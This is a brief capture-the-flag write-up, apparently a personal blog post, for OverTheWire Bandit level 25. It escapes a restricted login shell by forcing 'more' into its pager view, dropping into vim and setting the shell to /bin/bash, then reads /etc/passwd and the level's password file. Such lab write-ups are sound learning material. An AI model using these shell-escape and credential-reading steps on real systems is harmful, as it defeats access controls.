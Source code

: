 ```yaml
---
layout: post
title: Bandit 25
date: 2023-11-25 10:13 -0600
categories: OvertheWire Bandit
tags: note
permalink: "/:categories/:title"
---
```



```bash
ssh -i bandit26.sshkey bandit26@localhost -p 2220
```
- If we use the private key to login as `bandit26`, we are immediately logged out.

```bash
cat /etc/passwd
```


```bash
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

```bash
cat /usr/bin/showtext
```

```bash
#!/bin/sh
export TERM=linux
more ~/text.txt
exit 0
```
- Before exiting, `more ~/text.txt` is executed
- `more`: a filter for paging through text one screenful at a time. 

```bash
:set shell: <path to shell>
```
- In Vim, the `:set shell` command is used to specify or change the shell that Vim uses for executing shell commands.
- This is particularly useful if you want Vim to use a different shell than the system's default. 
- Resize the terminal windows to trigger `more` to go into its command view so that the program doesn't just exit. 

```bash
:set shell=/bin/bash
```

```
:shell
```

```
cat /bandit_pass/bandit26
```

